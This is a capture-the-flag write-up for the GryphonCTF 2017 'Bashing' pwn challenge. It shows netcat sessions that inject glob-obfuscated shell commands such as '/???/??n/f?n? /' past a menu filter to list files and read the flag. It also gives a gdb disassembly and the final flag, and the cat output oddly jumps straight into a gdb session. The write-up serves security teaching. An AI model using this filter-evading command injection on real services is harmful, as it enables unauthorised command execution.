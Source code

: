# GryphonCTF_2017: Bashing

**Category:** Pwn
**Points:** 150
**Description:**

>You are not yourself when you are hungry. Have a CTF challenge and stop bashing people up.
`nc pwn1.chal.gryphonctf.com 17345`
_Creator - @Platy_

**Hint:**

>I hate needles

## Write-up
This challenge was not an easy one, it's tricky, tough and something even seniors will have trouble in, due to the slightly blackbox nature. For the most part, solving this requires in-depth knowledge of Linux argument handling and common Linux utilities. Also included, bash globbing.

From the start, you are given hints that `sh` might be used as an interpreter,

    # nc pwn1.chal.gryphonctf.com 17345
    I am a [p]erson, [h]ungry > h
    Foods available
    [n]achos
    [f]ishies
    > n
      _   _            _               
     | \ | |          | |              
     |  \| | __ _  ___| |__   ___  ___ 
     | . ` |/ _` |/ __| '_ \ / _ \/ __|
     | |\  | (_| | (__| | | | (_) \__ \
     |_| \_|\__,_|\___|_| |_|\___/|___/

    Hope you enjoy!
    sh: 1: n: not found

However, entering any other value other than `n` or `f` appears to give us an error,

    # nc pwn1.chal.gryphonctf.com 17345
    I am a [p]erson, [h]ungry > h
    Foods available
    [n]achos
    [f]ishies
    > s
    Sorry, but we do not serve these here. Maybe next time!

This however, doesn't seem to apply to symbols...

    # nc pwn1.chal.gryphonctf.com 17345
    I am a [p]erson, [h]ungry > h
    Foods available
    [n]achos
    [f]ishies
    > n*

    Hope you enjoy!
    sh: 1: n*: not found

Let's see if we can find the flag using `/usr/bin/find`

    # nc pwn1.chal.gryphonctf.com 17345
    I am a [p]erson, [h]ungry > h
    Foods available
    [n]achos
    [f]ishies
    > /???/??n/f?n? /

    ...
    /bin/touch
    /bin/mv
    /bin/tar
    /bin/thisisareallylongflagbutifyoucansomehowcatthisitwouldbeamazing
    /dev
    /dev/console
    /dev/core
    ...

Oh look, let's try to cat it.

    # nc pwn1.chal.gryphonctf.com 17345
    I am a [p]erson, [h]ungry > h
    Foods available
    [n]achos
    [f]ishies
    > /??n/??? /??n/*n?f*n*n*
    ...
    (gdb) disas main
    Dump of assembler code for function main:
       0x00000000000006b0 <+0>: push   rbp
       0x00000000000006b1 <+1>: mov    rbp,rsp
       0x00000000000006b4 <+4>: push   0x7d
       0x00000000000006b6 <+6>: push   0x68
       0x00000000000006b8 <+8>: push   0x37
       0x00000000000006ba <+10>:    push   0x6c
       0x00000000000006bc <+12>:    push   0x34
       0x00000000000006be <+14>:    push   0x33
       0x00000000000006c0 <+16>:    push   0x68
       0x00000000000006c2 <+18>:    push   0x5f
       0x00000000000006c4 <+20>:    push   0x72
       0x00000000000006c6 <+22>:    push   0x30
       0x00000000000006c8 <+24>:    push   0x66
       0x00000000000006ca <+26>:    push   0x5f
       0x00000000000006cc <+28>:    push   0x64
       0x00000000000006ce <+30>:    push   0x34
       0x00000000000006d0 <+32>:    push   0x62
       0x00000000000006d2 <+34>:    push   0x5f
       0x00000000000006d4 <+36>:    push   0x35
       0x00000000000006d6 <+38>:    push   0x31
       0x00000000000006d8 <+40>:    push   0x5f
       0x00000000000006da <+42>:    push   0x36
       0x00000000000006dc <+44>:    push   0x6e
       0x00000000000006de <+46>:    push   0x31
       0x00000000000006e0 <+48>:    push   0x68
       0x00000000000006e2 <+50>:    push   0x35
       0x00000000000006e4 <+52>:    push   0x34
       0x00000000000006e6 <+54>:    push   0x62
       0x00000000000006e8 <+56>:    mov    r9d,0x7b
       0x00000000000006ee <+62>:    mov    r8d,0x46
       0x00000000000006f4 <+68>:    mov    ecx,0x54
       0x00000000000006f9 <+73>:    mov    edx,0x43
       0x00000000000006fe <+78>:    mov    esi,0x47
       0x0000000000000703 <+83>:    lea    rdi,[rip+0xae]        # 0x7b8
       0x000000000000070a <+90>:    mov    eax,0x0
       0x000000000000070f <+95>:    call   0x560 <printf@plt>
       0x0000000000000714 <+100>:   add    rsp,0xd0
       0x000000000000071b <+107>:   mov    eax,0x0
       0x0000000000000720 <+112>:   leave  
       0x0000000000000721 <+113>:   ret    
    End of assembler dump.

Interesting assembly dump. Piecing all the values also happen to give us the flag!

Well, this was not the intended way to solve it. The intended way to solve it was to make use of bash functions and the amazing `printf` function to build us a "command prompt", if you will.

Original intended solution, in [Python](solve.py).

    # ./solve.py 
    [+] Opening connection to pwn1.chal.gryphonctf.com on port 17345: Done
    [+] Cracking the Da Vinci Code...: GCTF{b45h1n6_15_b4d_f0r_h34l7h}
    [*] Closed connection to pwn1.chal.gryphonctf.com port 17345

Therefore, the flag is `GCTF{b45h1n6_15_b4d_f0r_h34l7h}`.
